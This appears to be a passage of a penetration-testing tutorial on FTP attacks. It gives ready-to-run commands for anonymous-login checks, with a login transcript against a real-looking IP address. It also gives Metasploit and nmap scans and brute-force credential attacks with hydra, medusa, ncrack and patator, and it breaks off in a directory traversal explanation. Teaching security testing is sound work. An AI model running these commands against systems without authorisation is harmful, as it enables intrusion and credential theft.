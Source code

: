 Anonymous Login Check Methods

| 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30  | \#Manual Anonymous Login Combos anonymous : anonymous anonymous : ftp : ftp  \#Manual Anonymous Login With ftp-ssl root@secyber.com:\~ ftp-ssl -p 88.255.104.161 990 Connected to 88.255.104.161. 220 Service Ready. Name (88.255.104.161:root): anonymous 234 Enabling TLS Connection [SSL Cipher ECDHE-RSA-AES256-GCM-SHA384] 502 Not supported 502 Not supported 331 Username ok, need password Password: 230 User logged in Remote system type is UNIX. Using binary mode to transfer files.  \#Anonymous Login Check With Metasploit Framework msf \> use auxiliary/scanner/ftp/anonymous set RHOSTS 10.10.x.x set RPORT 21 run  \#Nmap Script: nmap --script=ftp-anon -p21 10.10.x.x \#or nmap -sV -sC -p21 10.10.x.x  |
|-----------------------------------------------------------------------------------|------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

Valid Users and Password Detection Methods

| 1 2 3 4 5 6 7 8 9  | msf \> use auxiliary/scanner/ftp/ftp_login set RHOSTS 10.10.x.x set RPORT 21 set PASS_FILE /usr/share/wordlists/passwords.txt set USER_FILE /usr/share/wordlists/users.txt run  \#Nmap Script: nmap --script ftp-brute -p21 10.10.x.x  |
|--------------------|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

![Untitled](media/2fefb71cfc58ea1c840829234903d798.png)

To connect to FTP, anyone can log in to the server if anonymous login is allowed by the administrator. An attacker can log in anonymously using the metasploit exploit or using the “ftp” tool.

FTP Brute Forcing Methods

| 1 2 3 4 5 6 7 8 9 10 11 12  | hydra -t 2 -L user.list -P passwords.list -M targetIPs.list -s 21 ftp medusa -t 2 -T 2 -U user.list -P passwords.list -H targetIPs.list -n 21 -M ftp ncrack -g CL=2 -U user.list -P passwords.list -iL targetIPs.list -p ftp:21 -oA results.txt patator ftp_login host=10.10.x.x user=FILE0 password=FILE1 0=users.list 1=passwords.list -x ignore:mesg=’Login incorrect.’ -x ignore,reset,retry:code=500  \#Metasploit Framework: msf \> use auxiliary/scanner/ftp/login set RHOSTS 10.10.x.x set RPORT 21 set PASS_FILE /usr/share/wordlists/passwords.txt set USER_FILE /usr/share/wordlists/users.txt run  |
|-----------------------------|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

![Untitled](media/e5bddeb2fd8a7b950fc4a2aa3c94c1d9.png)

Common FTP Vulnerabilities

Directory Traversal Attack

A Directory Traversal attack (also known as path traversal) aims to access files and directories that are stored outside the intended folder. By manipulating files with “dot-dot-slash (../)” sequences and its variations, or by using absolute file paths, it may be possible to access arbitrary files and directories stored on file system, including application source code, configuration, and other critical system files.

Directory Traversal vulnerabilities can be generally divided into two types:

